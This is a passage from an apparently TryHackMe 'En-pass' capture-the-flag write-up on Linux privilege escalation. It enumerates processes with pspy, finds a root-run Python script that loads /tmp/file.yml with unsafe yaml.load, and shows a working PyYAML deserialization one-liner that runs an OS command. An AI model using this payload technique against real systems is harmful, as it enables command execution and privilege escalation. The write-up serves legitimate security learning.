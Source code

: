 lets doing any privilage escalation, i was check it with linpeas but i'm not found any missconfiguration. so im using [pspy](https://github.com/DominicBreuker/pspy) to snooping processes without root. 

> pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

so im run this and i got any hint : 

![img](/assets/thm_en-pass/bg_11.jpeg)

lets check `/opt/scripts` and alayze that : 

```bat
bash-4.3$ cat file.py 
#!/usr/bin/python
import yaml


class Execute():
        def __init__(self,file_name ="/tmp/file.yml"):
                self.file_name = file_name
                self.read_file = open(file_name ,"r")

        def run(self):
                return self.read_file.read()

data  = yaml.load(Execute().run())
```
im try to run this but it gives us below error : 

![img](/assets/thm_en-pass/bg_12.jpeg)

which is where the error is due to the absence of the file.yml file. and im ask to uncle google and give me some suprise [link](https://github.com/yaml/pyyaml/wiki/PyYAML-yaml.load(input)-Deprecation). lets check if its works or not : 
```
bash-4.3$ python -c 'import yaml; yaml.load("!!python/object/new:os.system [echo EXPLOIT!]")'
EXPLOIT!
bash-4.3$
```
and the example is works!!. 
